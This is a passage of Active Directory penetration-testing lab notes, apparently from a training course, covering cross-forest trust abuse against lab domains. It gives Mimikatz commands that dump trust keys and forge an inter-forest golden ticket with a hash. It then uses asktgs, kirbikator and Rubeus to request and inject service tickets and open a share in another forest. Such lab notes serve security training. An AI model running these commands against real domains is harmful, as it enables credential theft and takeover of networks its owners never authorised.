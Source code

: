 • S-1-5-21-2578538781-2508153159-3419410681-516 -> Domain Controllers 
• S-1-5-9 -> Enterprise Domain Controllers

# Learning Objective 20

Using DA access to dollarcorp.moneycorp.local, escalate privileges to Enterprise Admin or DA to the parent domain, moneycorp.local using dollarcorp's krbtgt hash.

# Across Forests

![[Pasted image 20230106224942.png]]

#### Once again, we require the trust key for the inter-forest trust.
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' 
# Or 
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

#### An inter-forest TGT can be forged
```powershell
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /rc4:cd3fb1b0b49c7a56d285ffdbb1304431 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi"'
```

#### Get a TGS for a service (CIFS below) in the target domain by using the forged trust ticket. 
```powershell
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local
```

• Tickets for other services (like HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting and WinRM) can be created as well.

#### Use the TGS to access the targeted service. 
```powershell
.\kirbikator.exe lsa .\CIFS.eurocorpdc.eurocorp.local.kirbi 

ls \\eurocorp-dc.eurocorp.local\forestshare\

# With Rubeus
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorpdc.eurocorp.local /ptt 

ls \\eurocorp-dc.eurocorp.local\forestshare\
```

# Learning Objective 21
